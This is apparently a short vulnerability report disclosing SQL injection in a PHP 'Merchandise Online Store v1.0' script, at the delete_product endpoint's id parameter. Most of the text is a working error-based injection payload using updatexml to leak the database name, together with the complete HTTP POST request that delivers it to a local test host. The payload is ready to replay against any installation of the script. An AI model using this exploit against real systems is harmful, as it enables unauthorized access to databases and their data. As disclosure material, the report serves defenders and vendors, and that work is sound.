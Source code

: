 # Merchandise Online Store v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: /vloggers_merch/classes/Master.php?f=delete_product

Vulnerability location: /vloggers_merch/classes/Master.php?f=delete_product, id

[+] Payload: id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /vloggers_merch/classes/Master.php?f=delete_product HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/vloggers_merch/admin/?page=product
Content-Length: 65
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close

id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id
```

![image](https://user-images.githubusercontent.com/102895316/166863042-c57efecb-062a-429f-acfb-417a3437965a.png)
